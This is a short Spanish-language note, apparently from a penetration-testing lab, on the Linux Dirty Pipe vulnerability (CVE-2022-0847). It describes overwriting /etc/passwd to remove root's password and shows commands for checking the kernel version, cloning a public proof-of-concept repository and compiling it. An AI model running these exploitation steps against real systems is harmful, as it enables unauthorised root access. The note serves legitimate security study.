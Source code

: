 # CVE-2022-0847 – Dirty Pipe

## Descripción
Vulnerabilidad presente en los kernels de Linux desde la versión `5.8` hasta la `5.17`.

Permite a un usuario con **acceso de lectura** sobre un archivo **escribir contenido arbitrario** en él, lo que puede llevar a una escalada de privilegios.

## Detalles técnicos
La vulnerabilidad se basa en el uso de **pipes**, un mecanismo de comunicación unidireccional entre procesos en sistemas Unix.

Un ejemplo de explotación sería modificar el archivo `/etc/passwd` para **eliminar la solicitud de contraseña del usuario root**, permitiendo así acceder mediante `su` sin necesidad de contraseña.

## Explotación
Para explotarla, es necesario descargar un **PoC (Proof of Concept)** desde el siguiente repositorio:

🔗 [https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits)

Se debe compilar directamente en el sistema vulnerable (o en una copia del mismo).

## Afecta a
- Kernels de Linux desde la versión **5.8 hasta 5.17**


Verify kernel version:
```shell-session
cry0l1t3@nix02:~$ uname -r

5.13.0-46-generic
```
La versión del kernel está en el rango, por lo que es vulnerable.

Explotación:
```shell-session
cry0l1t3@nix02:~$ git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cry0l1t3@nix02:~$ cd CVE-2022-0847-DirtyPipe-Exploits
cry0l1t3@nix02:~$ bash compile.sh
```